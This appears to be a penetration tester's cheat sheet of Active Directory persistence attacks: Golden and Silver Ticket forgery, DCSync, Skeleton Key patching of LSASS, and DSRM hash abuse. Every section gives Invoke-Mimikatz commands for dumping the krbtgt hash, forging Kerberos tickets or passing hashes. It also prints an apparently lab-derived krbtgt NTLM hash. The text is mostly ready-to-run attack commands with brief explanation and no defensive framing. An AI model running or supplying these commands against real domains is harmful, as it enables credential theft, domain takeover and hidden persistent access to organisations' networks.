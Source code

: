 ++++++++++++++++++
Golden Ticket:
++++++++++++++++++


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>

Once we get the hash of krbtgt account, we can generate our own TGT using:
> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
> klist


For DCSync:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'
Example: Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'



+++++++++++++++
Silver Ticket:
+++++++++++++++
Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'


+++++++++++++++
Skeleton Key:
+++++++++++++++
Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.


++++++++++++++++++++++++++++++++++++++
DSRM(Directory Service Restore Mode):
++++++++++++++++++++++++++++++++++++++
When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin prives are required
> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>

After obtaining the DSRM hash:
> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'


